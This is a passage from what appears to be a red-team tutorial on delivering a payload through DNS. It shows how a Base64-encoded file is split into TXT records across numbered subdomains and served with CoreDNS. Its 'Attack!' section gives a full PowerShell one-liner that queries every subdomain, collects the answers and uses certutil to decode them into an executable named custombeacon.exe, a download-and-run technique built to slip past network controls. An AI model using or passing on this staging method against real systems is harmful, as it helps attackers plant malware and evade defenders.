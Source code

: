 With these points in mind we must ensure that only a single TXT record is returned for each DNS query.  Enter subdomains.  Just as we registered "dns.edu...com" as a subdomain of "edu....com", we can provide records for further subdomains (e.g. 1.dns.edu....com).  We can create as many subdomains as needed to in order to serve all of our TXT records.

Let look at our Base64'd payload:

![image](https://user-images.githubusercontent.com/91164728/160318505-d7b98905-e475-4ba2-94ae-492bc0bd3c63.png)

As previously mentioned we can stuff 255 characters into each TXT record.  Dividing 413,696/255 yields 1,623 after rounding up.  That is a lot of TXT records (and by proxy a lot of subdomains). It is a starting point however.

I wrote a Python3 script to ingest the Base64'd payload and create a zonefile:

![image](https://user-images.githubusercontent.com/91164728/160323059-431413ca-b968-4410-b657-3799a291ddf4.png)

This script will open our Base64'd payload (comp.txt) and use the "chunkstring" function (courtesy of a stack overflow post) in order to split the file up in to 255 character long chunks which we will then create TXT records with.  Note that the IP's here are fake/random and unnecessary. 

Looking at the produced zonefile we see our TXT records:

![image](https://user-images.githubusercontent.com/91164728/160323451-3527df06-36a1-484e-9f85-a3f36031b4e7.png)

Note the number on the far left hand side of each TXT record; this denotes the subdomain. 

Now that our zonefile is created we will need to copy it to our DNS server and then serve it.  I used CoreDNS for this: https://github.com/coredns/coredns

![image](https://user-images.githubusercontent.com/91164728/160324503-beaaca28-df15-4f33-b107-3c848abee162.png)

This shows that I am accepting queries for dns.edu....com on port 53.  In the Corefile I have specified the zonefile created in the previous step to serve records from. To test that our records work we will run nslookup for TXT records belonging to 1.dns.edu....com:

![image](https://user-images.githubusercontent.com/91164728/160323616-d5522549-f00a-4deb-9f51-c11d88c0ce29.png)

There is our TXT record!

## Attack!

We now need to run nslookup... 1623 times.  Less than ideal, but it's what we will do for now.  We will use this powershell one-liner in order to run nslookup for each subdomain and then select only the TXT record ($temp[5]) and then build $results as we go.  $results is then written to ./temp.txt, and finally certutil is used to decode temp.txt to custombeacon.exe.

```powershell
$results="";for($num = 1; $num -le 1623 ; $num++){$temp = nslookup -type=TXT "$num.dns.edu....com" 2> $null;$temp = $temp[5].replace("`t","").replace("`"","");$results = $results + $temp};$results > ./temp.txt;certutil -decode ./temp.txt ./custombeacon.exe
```

Upon running our command we see all of the DNS requests on our CoreDNS server:

![image](https://user-images.githubusercontent.com/91164728/160432129-1014f3a2-d8e5-4fc3-b2e4-99398900bb88.png)
